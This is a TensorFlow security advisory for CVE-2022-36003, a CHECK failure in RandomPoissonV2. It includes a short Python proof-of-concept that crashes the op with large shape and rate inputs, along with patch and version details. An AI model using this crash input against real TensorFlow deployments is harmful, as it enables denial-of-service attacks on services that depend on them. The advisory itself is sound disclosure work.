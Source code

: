 ## TFSA-2022-133: `CHECK` fail in `RandomPoissonV2`

### CVE Number
CVE-2022-36003

### Impact
When `RandomPoissonV2` receives large input shape and rates, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(4,), dtype=tf.int32, maxval=65536)
arg_1=tf.random.uniform(shape=(4, 4, 4, 4, 4), dtype=tf.float32, maxval=None)
arg_2=0
arg_3=0
arg_4=tf.int32
arg_5=None
tf.raw_ops.RandomPoissonV2(shape=arg_0, rate=arg_1, seed=arg_2,
                           seed2=arg_3, dtype=arg_4, name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [552bfced6ce4809db5f3ca305f60ff80dd40c5a3](https://github.com/tensorflow/tensorflow/commit/552bfced6ce4809db5f3ca305f60ff80dd40c5a3).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
